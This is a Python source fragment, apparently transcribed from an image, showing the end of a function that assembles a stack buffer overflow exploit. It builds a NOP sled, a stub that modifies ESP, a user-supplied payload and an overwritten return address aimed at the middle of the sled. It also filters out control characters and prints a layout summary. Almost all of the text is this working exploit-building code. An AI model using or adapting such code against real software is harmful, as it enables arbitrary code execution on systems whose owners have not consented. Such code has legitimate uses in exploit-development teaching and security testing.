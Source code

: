 ```python
	maximum = 1028
	nopsize = maximum - len(payload) - len(stub)
	middle = int(nopsize / 2)
	
	if nopsize < 0:
		if not silent: print("Payload size is too large!")
		return b''
	
	for v in payload:
		if v < 32:
			if not silent: print("Payload contains control characters!")
			return b''

	# Make sure the "middle" address doesn't contain control chars
	if ((address + middle) & 0xFF) < 32: middle -= 32

	if not silent:
		print("")
		print("] Nopsled size:   {:>4}".format(nopsize))
		print("]    Stub size: + {:>4}  ({})".format(len(stub), ("breakpoint, " if breakpoint else "") + "modify ESP"))
		print("] Payload size: + {:>4}".format(len(payload)))
		print("] Address size: + {:>4}".format(4))
		print("]   Total size: = {:>4}".format(nopsize + len(payload) + len(stub) + 4))
		print("")
		print("]  Start address:   {:>8}".format(hex(address)))
		print("] Middle nopsled: + {:>8}".format(hex(middle)))
		print("] Return address: = {:>8}".format(hex(address + middle)))
	
	return b"\x90" * nopsize + stub + payload + pack('i', address + middle)

if __name__ == "__main__": main()

```

---

